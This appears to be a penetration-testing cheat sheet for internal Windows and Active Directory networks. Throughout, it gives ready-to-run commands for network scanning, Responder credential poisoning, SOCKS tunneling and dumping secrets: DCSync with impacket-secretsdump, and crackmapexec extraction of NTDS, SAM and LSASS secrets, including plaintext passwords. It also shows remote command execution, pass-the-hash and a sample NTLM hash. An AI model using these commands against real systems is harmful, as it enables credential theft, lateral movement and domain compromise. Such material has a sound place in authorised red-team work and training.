 # Network Information

## Passive

`arp -a`

`ifconfig / ipconfig`

`tcpdump -i eth0`

`netdiscover`

## Scanning

`nbtscan 192.168.1.1/24`

`nbtscan-unixwiz 192.168.1.1/24`

`nmap -sSV --open -iL ips.txt -oA output`

`sudo nmap --script broadcast-dhcp-discover`

`ping 255.255.255.255`

## Recon

`enum4linux -a ip`

`smbmap -H ip`

`crackmapexec smb IP`

Get IP and hostname

## Responder

### Analyze Mode
`responder -I eth0 -A`

`responder -I eth0 -wFP`

### Force Basic Auth
`responder -I eth0 -wbFP`


# SSH Tunneling

### Socks proxy
`ssh -D 8080 root@IP`

Set Firefox network settings to use socks5 proxy 127.0.0.1 8080, must remove the HTTP proxy

# Dumping

## DCSYNC

`impacket-secretsdump DOMAIN/user:password@IP -history -outputfile output`

Gets all password history too, useful for identifying patterns

`crackmapexec smb IP -u user -p password --ntds`

## Other

`crackmapexec smb IP -u user -p password --sam`

Local SAM passwords, NTLM

`crackmapexec smb IP -u user -p password --lsa`

Looks for LSASS secrets, includes tokens and plaintext passwords stored in memory.

# Bloodhound

# crackmapexec

`crackmapexec smb IP -u user -p password -x 'whoami'`

-X for PowerShell, gets blocked by most systems

`crackmapexec smb IP -u user -H hash -x 'whoami'`

Pass the hash.

**Protocols**: {smb,rdp,winrm,ssh,ldap,mssql,ftp}

* **-u**: username
* **-p**: text password
* **--local-auth**: local auth, not domain auth
* **-x**: command execution
* **-X**: powershell command execution
  * Works better with winrm
* **-d**: domain

# smbmap

* **-H**: host
* **--host-file**: hosts file
* **-u**: username
* **-p**: text password or NT:LM hash
* **-d**: domain


# Windows Hashes

## NTLM
Local user hash, can be relayed to hosts with SMB signing disabled.

`Admin:500:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::`

Name:RID (relative identifier):LM hash:NT hash

## RID

* **500**: Administrator
* **501**: Guest
